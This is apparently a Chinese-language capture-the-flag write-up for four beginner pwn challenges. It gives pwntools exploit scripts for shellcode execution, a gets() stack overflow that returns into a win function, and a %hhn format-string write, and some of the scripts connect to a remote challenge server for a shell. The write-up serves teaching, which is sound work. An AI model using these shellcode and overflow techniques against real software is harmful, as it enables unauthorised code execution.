


# pwn

## ez_nc

### 出题思路

学会使用netcat就可以了。

### 解题思路

在终端使用`nc IP PORT`即可获得flag。

## hangs_code_runner

### 出题思路

学会使用`shellcode`。

### 解题思路

先使用checksec查看保护情况，发现可以执行shellcode，再用ida打开，发现存在函数逻辑是直接将输入的内容当作函数执行，即可以执行shellcode。

我们在checksec时候已知程序的版本和内核情况，所以可以使用相同的配置编写一个函数并编译，然后使用objdump得到shellcode；或者在[这个网站](https://shell-storm.org/shellcode/index.html)查找对应符合要求的shellcode。

### 解题脚本

```python
from pwn import *

shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# shellcode = b"".join([chr(i).encode() for i in [0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x50, 0x54, 0x5f, 0x31, 0xc0, 0x50, 0xb0, 0x3b, 0x54, 0x5a, 0x54, 0x5e, 0x0f, 0x05]])


# p = process('./hangs_code_runner')
p = remote('118.89.197.242', 32961)

# p.sendlineafter(b"=== onehang's code executor ===\n",shellcode)
p.sendline(shellcode)

p.interactive()
```

## ez_overflow

### 出题思路

学习了解栈溢出漏洞。

### 解题思路

checksec发现没有开启任何保护。

再用ida打开，发现使用的输入函数是gets，没有限制输入长度，而buffer只有16个字节的大小，因此，存在缓冲区溢出漏洞。

同时，又发现该程序存在函数win，win函数执行命令`system("/bin/sh");`，可以让我们getshell。

于是这道题目就是一个构造payload，将返回地址覆盖为win函数的地址，从而可以执行system命令。

由于我们发现该程序未开启任何保护，所以ida中所展示的程序地址便是真实的程序在运行时的虚拟地址。

而想要覆盖返回地址，我们需要知道栈的情况

于是从-0x18覆盖到+4后便是程序的返回地址

### 解题脚本

```python
#!/usr/bin/env python3
from pwn import *

# 本地测试
# p = process('./overflow')
p = remote('118.89.197.242', 33263)

# 计算偏移量
# buffer大小16字节 + 保存的ebp 8字节 = 24字节
offset = 0x18+0x4

# 构建payload
payload = b'A' * offset  # 填充缓冲区
payload += p32(0x8049236)  # win函数的地址（需要根据实际地址调整）
print(p32(0x8049236))

# 发送payload
p.recvuntil(b"please input your ")
p.sendlineafter(b"name:", payload)
p.interactive()
```

## 简单的格式化字符串

### 出题思路

学会格式化字符串的多种格式化符号，如：`%u`, `%d`, `%p`, `%hhn`...

学习了解格式化字符串漏洞。

### 解题思路

本题的保护均开启。

打开ida发现主要逻辑是如果 `test3 == 100`则执行system从而getshell。

但是虽然本题使用了gets函数，存在缓冲区溢出的风险，但是由于开启了金丝雀保护，并不好绕过。

这时候我们发现了一个写法上的疏漏：`printf(buf1);`——只有在这种偷懒的情况下，存在格式化字符串漏洞，即输入内容中的格式化符号会产生歧义，被误解并当作本来的内容，然后向后搜索参数。

`%n` 是格式化字符串漏洞利用的核心所在，其会将 `%n` 占位符之前已经**成功输出的字符个数**写入对应参数所指向的地址内容。

`%Xc%Y$n` 这种形式的格式化字符串可以将已经输出的字符数写入到指定的参数，从而实现任意地址写数据。`%Xc` 即输出 `X` 个字符，`%Y$n` 指定写到第 `Y + 1` 个参数（实际上已经在栈上写入数据了）。

通过格式化字符串漏洞泄漏 EBP 的内容：需要注意，**32 位参数存放到栈上，而非寄存器**，所以参数从第 1 个数起。

通过其内容对应的地址计算出相对于 `test3` 地址的偏移。

由于 32 位地址小端序输出不会出现 `\x00` 截断现象，可以将 `test3` 地址放在 `buf1` 字符串前面，后面跟着格式化字符串利用参数读取 `test3` 地址并写入；特别地，32 位地址的小端序形式占用 4 个字节，相当于 4 个字符，为使最终 `%hhn` 能够正确读取到 `100` 写入，只需要 `%96c` 补全 100 个字符即可。

### 解题脚本

```python
from pwn import *
context(log_level='debug', arch='i386', os='linux')
file = './fmt_x86'

p = process(file)

p.recvline()
search_rbp = b'%14$p'
p.send(search_rbp)

rbp_stack = int(p.recv()[2:10], 16)
cmp_addr = rbp_stack - 0x40

payload = p32(cmp_addr) + b'%96c%7$hhn'
p.send(payload)
p.recv()

p.interactive()

```

# 